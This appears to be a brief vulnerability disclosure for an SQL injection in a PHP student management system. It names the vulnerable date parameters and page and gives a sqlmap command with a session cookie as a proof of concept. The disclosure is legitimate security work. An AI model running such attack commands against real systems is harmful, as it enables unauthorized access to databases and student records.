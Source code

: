 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16137/online-student-management-system-php-free-download.html

Vulnerability trigger parameter: $fromdate,$todate

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/220947513-2d9d5c94-4f78-4c6c-87ce-90c45e8f3f82.png)


exp

```
sqlmap.py -u "http://192.168.31.50/eduauth/student/between-date-reprtsdetails.php" --data "fromdate=1&todate=1" --cookie "PHPSESSID=po9tmu5iqkuvffteh4b6rur4g0"
```
![image](https://user-images.githubusercontent.com/30823782/220947570-39b73730-3594-4a32-aeec-6665e89751b9.png)

